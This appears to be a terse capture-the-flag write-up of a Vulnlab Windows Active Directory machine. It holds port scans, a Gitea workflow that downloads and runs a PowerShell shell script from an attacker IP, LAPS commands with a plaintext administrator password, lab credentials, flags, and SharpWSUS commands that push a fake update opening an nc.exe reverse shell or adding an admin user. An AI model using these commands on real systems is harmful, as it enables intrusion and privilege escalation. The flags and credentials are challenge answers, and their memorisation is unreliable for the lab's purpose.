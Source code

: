 Scan 1 :
```sh
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-12 13:16:35Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: tea.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: tea.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services

```
Scan 2 : 
```sh
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
3000/tcp open  ppp?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

-  First foothold : 
```
- Create an account 
- Create a folder and enable action in the repo settings
```

- Upload the folder : `.gitea/workflows/demo.yaml`
```yaml
name: Execute wget (or curl) on commit or push
on: [push]

jobs:
  Execute-Wget:
    runs-on: windows-latest
    steps:
      - name: Execute curl command
        run: |
          powershell IEX (New-Object Net.WebClient).DownloadString('http://10.8.3.12:8080/shell.ps1')
        shell: cmd
```

- Push random item to get a shell 

- First user :
```sh
thomas.wallace
jiri.formacek
```

Flag :  VL{4e1989d1fe9a7cfc26c56efd7e7df933}

- Laps v2 : 
```powershell
Get-LAPSADPassword  -Identity srv
Get-LapsADPassword -Identity srv -DomainController dc -AsPlainText
```

```sh
ComputerName        : SRV
DistinguishedName   : CN=SRV,OU=Servers,DC=tea,DC=vl
Account             : Administrator
Password            : NC4X9563Yl+;$M
PasswordUpdateTime  : 9/18/2024 12:25:00 AM
ExpirationTimestamp : 10/18/2024 12:25:00 AM
Source              : EncryptedPassword
DecryptionStatus    : Success
AuthorizedDecryptor : TEA\Server Administration
```

Flag  VL{0625916903cc1c866ad33c963a400a61}

- Creds :
```sh
thomas.wallace:6e-34tD8B2QJ
```

- WSUS Update : 
https://github.com/techspence/SharpWSUS
```sh
SharpWSUS.exe locate
SharpWSUS.exe inspect 
SharpWSUS.exe create /payload:"C:\tools\PsExec64.exe" /args:" -accepteula -s -d C:\_install\nc.exe -e cmd.exe 10.8.3.12 4242" /title:"CVE-2022-30190"
SharpWSUS.exe approve /updateid:7d18aee2-2c8e-4857-b61e-1408a653dcbe /computername:dc.tea.vl /groupname:"Group Name"
#or 
SharpWSUS.exe create /payload:"C:\_install\PsExec64.exe" /args:"-accepteula -s -d cmd.exe  /c \" net user pavic Password_123 /add \""

SharpWSUS.exe create /payload:"C:\_install\PsExec64.exe" /args:"-accepteula -s -d cmd.exe  /c \"net localgroup administrators pavic /add \""

```
https://0xdf.gitlab.io/2022/12/10/htb-outdated.html

Root : VL{9bb75d5911b1a1f9bfe115facf5a6039}